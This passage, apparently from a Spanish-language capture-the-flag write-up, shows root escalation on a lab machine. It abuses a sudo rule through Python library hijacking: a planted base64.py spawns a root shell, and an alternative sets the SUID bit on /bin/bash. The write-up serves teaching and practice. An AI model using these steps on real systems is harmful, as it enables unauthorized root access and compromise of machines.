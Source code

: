 Ahora que somos el usuario arasaka miramos como podemos escalar privilegios a root:

```bash
arasaka@Cyberpunk:~$ sudo -l
Matching Defaults entries for arasaka on Cyberpunk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User arasaka may run the following commands on Cyberpunk:
    (root) PASSWD: /usr/bin/python3.11 /home/arasaka/randombase64.py
```

Vemos que tenemos permisos para ejecutar como root el script randombase64.py

```bash
arasaka@Cyberpunk:~$ cat randombase64.py 
import base64
message = input("Enter your string")
message_bytes = message.encode("ascii")
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode("ascii")

print(base64_message)
```

Al tener permisos de root sobre el script y ver que importa librerias, vamos a escalar privilegios creando un script con el nombre de la libreria importada, para que se ejecute antes que el resto del script. En este caso `base64.py`

```bash
arasaka@Cyberpunk:~$ vi base64.py
import os


os.setuid(0)
os.system("/bin/bash")

arasaka@Cyberpunk:~$ sudo /usr/bin/python3.11 /home/arasaka/randombase64.py 
root@Cyberpunk:/home/arasaka# ls


```

Método alternativo:

```bash
import os;
os.system("chmod u+s /bin/bash")

sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
ls -la /bin/bash
bash -p
```


# Bandera(s)

> [!FLAG] `flag{B4nd3r4}`
^bandera

